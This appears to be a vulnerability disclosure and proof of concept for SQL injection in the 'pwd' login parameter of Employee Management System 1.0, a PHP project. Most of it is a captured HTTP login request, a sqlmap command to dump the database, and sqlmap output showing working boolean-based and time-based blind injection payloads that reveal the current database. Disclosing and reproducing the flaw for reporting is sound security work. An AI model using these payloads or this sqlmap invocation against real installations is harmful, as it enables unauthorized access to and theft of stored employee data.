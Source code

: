 # Employee Managment System - SQL Injection - 2
+ **Exploit Title:** Employee Managment System - SQL Injection - 2
+ **Date:** 2024-30-01
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://code-projects.org/employee-management-system-in-php-with-source-code/
+ **Software Link:** https://download.code-projects.org/details/4af079c9-ab82-4b2a-a133-be6989c7f70e
+ **Version:** 1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Employee Managment System 1.0 allows SQL Injection via the 'pwd' parameter at "http://localhost/370project/process/aprocess.php". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/370project//alogin.html"
+ Try logging in by typing random things
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:
```
POST /370project/process/aprocess.php HTTP/1.1
Host: localhost
Content-Length: 42
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/370project/alogin.html
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

mailuid=selam&pwd=selam&login-submit=Login

```

+ Use sqlmap to exploit. In sqlmap, use 'pwd' parameter to dump the database.
```
sqlmap -r r.txt -p pwd --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: pwd (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: mailuid=selam&pwd=selam' OR NOT 4950=4950-- pTpv&login-submit=Login

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: mailuid=selam&pwd=selam' AND (SELECT 7809 FROM (SELECT(SLEEP(5)))YTrZ)-- CFoo&login-submit=Login
---
[05:01:17] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[05:01:17] [INFO] fetching current database
[05:01:17] [INFO] resumed: 370project
current database: '370project'


```
+ current database: `370project`

![Ekran görüntüsü 2024-01-30 133436](https://github.com/BurakSevben/CVEs/assets/117217689/46c520f9-8844-4f7d-aa97-c9b189e2a9cf)
